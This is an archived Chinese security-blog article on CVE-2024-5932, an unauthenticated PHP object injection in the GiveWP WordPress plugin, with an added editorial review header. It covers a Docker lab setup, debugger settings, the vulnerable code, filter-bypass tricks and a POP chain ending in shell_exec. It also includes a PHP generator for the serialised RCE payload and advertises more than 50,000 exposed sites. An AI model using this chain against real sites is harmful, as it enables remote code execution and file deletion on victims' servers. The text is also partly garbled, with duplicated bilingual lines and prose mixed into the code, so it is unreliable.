










## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=3.14.1; publicdonation form; installed POP classes/autoload/runtime; delete directory permissions and RCEfunctionavailability

- **结论使用边界（1）**：标题WordPress及5万资产泛化插件/指纹，FOFA命中非漏洞确认。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（2）**：有POP生成PHP但没有给give_title完整提交/转义代码，阅读原文PoC链接未保留。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（3）**：英文/中文调用链重复且Give被译给，代码块混入说明PoC.php不能直接执行。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **操作与副作用边界（4）**：称root所有文件不能删不准确，删除主要受父目录权限/sticky控制；测试chown只能是该实验配置。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **事实待核（5）**：Xdebug硬编码PHP8.0扩展ABI并混Xdebug2/3选项，与未固定PHP的WP镜像可能不兼容；无固定补丁版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  超高危 Wordpress RCE漏洞 CVE-2024-5932 全网资产 5W+ 附POC   
合规渗透  合规渗透   2024-09-05 20:05  
  
poc见最下方阅读原文，欢迎关注。最新漏洞持续推送中  
  
CVE-2024-5932：GiveWP PHP 对象注入漏洞是一个可以  
远程代码执行和未经授权文件删除的漏洞  
  
**漏洞描述：**  
  
WordPress 的 GiveWP 捐赠插件和筹款平台插件在 3.14.1 及之前的所有版本中，通过反序列化来自“give_title”的不受信任的输入，容易受到 PHP 对象注入的攻击。' 范围。这使得未经身份验证的攻击者可以注入 PHP 对象。POP 链的额外存在允许攻击者远程执行代码并删除任意文件。  
  
CVE-2024-5932.py  
  
  
根据特征从fofa搜索可得到5W+资产  
  
##   
## 漏洞复现环境搭建  
### 1. docker-compose.yml 1.docker-compose.yml  
```
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060
  wordpress:
    image: wordpress:6.3.2
    ports:
      - 80:80
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```  
### 2.然后下载有漏洞的GiveWP插件：  
  
https://downloads.wordpress.org/plugin/give.3.14.1.zip  
### 3. 解压 GiveWP 插件 zip 文件并将整个文件复制到“/var/www/html/wp-content/plugins”目录。  
```
docker cp give docker-wordpress-1:/var/www/html/wp-content/plugins
```  
### 4. 启用 GiveWP 插件

> 资料补充（非原文复原）：[EQSTLab 的 CVE-2024-5932 环境说明](https://github.com/EQSTLab/CVE-2024-5932#vulnerable-environment) 在相同的插件复制步骤之后列出“启用 GiveWP 插件”，随后添加帖子；此处据该参考补明步骤，原中文归档该位置为空。
  
  
### 5. 使用 GiveWP 插件添加新帖子并复制帖子链接  
  
### 6.检查易受攻击的链接  
  
  
### 在docker环境中设置目标文件  
  
首先，使用以下命令访问 wordpress shell：  
```
docker exec -it -u root docker-wordpress-1 /bin/bash
```  
  
如果该文件属于root，则可能由于权限原因而无法删除。因此，您需要使用以下命令更改测试文件的所有权：  
```
touch test && chown www-data test
```  
  
  
## 通过 PHPSTORM 进行调试  
  
您可以使用 PHPSTORM 调试 GiveWP。  
### 1. 在你的wordpress(Docker)中下载xdebug：  
```
pecl install xdebug
```  
### 2.然后像(Docker)一样设置wordpress的php.ini文件：  
```
[DEBUG]
zend_extension=/usr/local/lib/php/extensions/no-debug-non-zts-20200930/xdebug.so
xdebug.mode=debug
xdebug.start_with_request=trigger
xdebug.remote_enable=on
xdebug.remote_handler=dbgp
xdebug.client_host={your_PHPSTORM_address}
xdebug.client_port={your_PHPSTORM_debugging_port}
xdebug.idekey=PHPSTORM
xdebug.profiler_enable_trigger=1
xdebug.trace_enable_trigger=1
```  
  
..然后你就可以调试你的wordpress了。  
### 3. 设置PHPSTORM（本地）：  
  
  
  
  
### 4. PHPSTORM示例（例如TCPDF任意文件删除）  
  
  
# 分析  
## 脆弱点（includes/ payments/class-give- payment.php）  
  
此时，get_meta()函数反序列化之前保存的“give_title”值。  
```
switch ( $key ) {
            case 'title':
              $user_info[ $key ] = Give()->donor_meta->get_meta( $donor->id, '_give_donor_title_prefix', true );
              break;
...
```  
## Bypass 技术  
  
```
strip_tags: replace nullbytes -> using \0
strip_tags：使用 \0 替换空字节 ->
stripslashes_deep: replace backslashes -> using \\\\
stripslashes_deep：使用 \\\\ 替换反斜杠 ->
```  
  
****## POP chaining for RCE RCE 的 POP 链  
  
```
Stripe\StripeObject->__toString()
Stripe\StripeObject->toArray()
Give\PaymentGateways\DataTransferObjects\GiveInsertPaymentData->toArray()
Give\PaymentGateways\DataTransferObjects\GiveInsertPaymentData->getLegacyBillingAddress()
Give->__get('address1')
给->__get('address1')
\Give\Vendors\Faker\ValidGenerator->get('address1')
\Give\Vendors\Faker\ValidGenerator->get('address1')
\Give\Vendors\Faker\ValidGenerator->__call('get', 'address1')
\Give\Vendors\Faker\ValidGenerator->__call('get', 'address1')
Give\Onboarding\SettingsRepository->get('address1') (Return command string)
Give\Onboarding\SettingsRepository->get('address1')（返回命令字符串）
call_user_func('shell_exec', 'command')
call_user_func('shell_exec', '命令')
PoC.php
<?php
namespace Stripe{
  class StripeObject
  {
    protected $_values;
    public function __construct(){
      $this->_values['foo'] = new \Give\PaymentGateways\DataTransferObjects\GiveInsertPaymentData();
    }
  }
}

namespace Give\PaymentGateways\DataTransferObjects{
  class GiveInsertPaymentData{
    public $userInfo;
    public function __construct()
{
        $this->userInfo['address'] = new \Give();
    } 
  }
}  

namespace{
  class Give{
    protected $container;
    public function __construct()
{
      $this->container = new \Give\Vendors\Faker\ValidGenerator();
    }
  }
}

namespace Give\Vendors\Faker{
  class ValidGenerator{
    protected $validator;
    protected $generator;
    public function __construct()
{
      $this->validator = "shell_exec";
      $this->generator = new \Give\Onboarding\SettingsRepository();
    }
  }
}

namespace Give\Onboarding{
  class SettingsRepository{
    protected $settings;
    public function __construct()
{
      $this -> settings['address1'] = 'touch /tmp/EQSTtest';
    }
  }
}

namespace{
  $a = new Stripe\StripeObject();
  echo serialize($a);
}
```  
# 通过 POP 链进行远程命令执行   
  
  
  
  
  
👇 poc  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
